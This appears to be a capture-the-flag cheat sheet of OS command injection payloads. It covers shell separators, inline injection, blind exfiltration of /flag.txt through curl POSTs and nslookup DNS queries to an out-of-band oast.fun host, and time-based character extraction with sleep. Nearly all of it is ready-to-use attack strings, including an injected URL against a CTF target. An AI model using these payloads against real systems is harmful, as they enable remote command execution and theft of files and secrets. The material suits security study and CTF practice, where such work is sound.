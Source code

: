 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```

![[Pasted image 20241215201548.png]]

# File Uploads

![[Pasted image 20241215202307.png]]


